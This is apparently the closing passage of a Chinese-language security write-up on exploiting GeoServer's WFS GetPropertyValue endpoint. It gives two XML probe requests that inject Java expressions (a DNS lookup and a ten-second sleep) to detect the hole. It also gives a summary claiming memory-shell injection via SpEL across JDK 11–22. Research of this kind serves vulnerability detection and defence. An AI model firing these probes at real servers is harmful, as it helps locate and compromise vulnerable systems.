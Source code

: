 dnslog 检测：  
```
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>java.net.InetAddress.getAllByName("")
</wfs:valueReference>
</wfs:GetPropertyValue>
```  
## 延迟检测：  
```
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>java.lang.Thread.sleep(10000)
</wfs:valueReference>
</wfs:GetPropertyValue>
```  
  
## 总结  
  
本文通过 SpEL 表达式执行的方式完成内存马注入攻击，完成了两处的 JDK 高版本反射限制，其中通过一个手动编译字节码的技巧和 gzip 压缩字节码的方式对最后的 Base64 进行压缩，最终完成了 JDK 11 - 22（经过测试） 的全版本 JDK 通杀。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/vlekRjgqic0com47Ajdqk5Z6pve1WziaPcguMLs6a6iclo1ubX1G9OIFDBrcLq64ucwRWLwrRMECcxcaIVfeyJJUg/640?wx_fmt=png "")  
  
